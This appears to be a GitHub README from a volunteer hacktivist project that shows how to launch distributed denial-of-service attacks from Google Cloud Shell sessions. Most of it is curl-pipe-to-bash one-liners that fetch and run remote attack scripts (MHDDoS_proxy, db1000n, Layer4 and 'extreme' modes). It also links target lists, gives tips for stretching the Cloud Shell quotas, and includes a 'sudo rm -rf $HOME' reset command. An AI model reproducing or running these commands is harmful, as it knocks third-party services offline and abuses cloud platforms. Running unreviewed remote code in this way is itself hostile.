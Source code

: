 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Use https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### from PC and smartphones (*all devices with browser*;)
#
#### Browser mode (*suitable for use 1 to 20-30 accounts from one PC, if more - [here](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **It is recommended to use 1 terminal per account**.    
:exclamation:• **GShell sessions are capped at 12 hours. You can start a new session immediately after terminate**    
:exclamation:• Please note that **Weekly usage quotas, 1 account - 50 hours in normal mode and up to 50 hours in ephemeral mode** (*until the quota expires in the default mode - turn on the ephemeral mode (set - "Always") and get 10-50 hours of use during the current week*)    
:exclamation:• In [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) you can disable usage statistics in settings.    
• **To restore Cloud Shell** - remove all files from your home directory, command: `sudo rm -rf $HOME`, after - in the Cloud Shell menu, click the three dots menu icon, then click "Restart" *(A new VM will be provisioned and the home directory will be restored to its default state)*
#
### Stable sessions (*90%*)
:white_check_mark:**Command to install and run MHDDoS_proxy ([Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Command to install and run db1000n:** 
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Tests / elaborations / experiments. 
**Unstable sessions; are terminated** (need constantly checked)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Split terminal (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (mhddos_proxy commands without parameters)
 :exclamation: **Attacks are powerful but short + high probability of getting banned** (*the ban is usually temporary and only applies to access to GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Target lists
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst     
https://gist.github.com/ddosukraine2022/f739250dba308a7a2215617b17114be9/raw/mhdos_targets_url_v2.txt
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
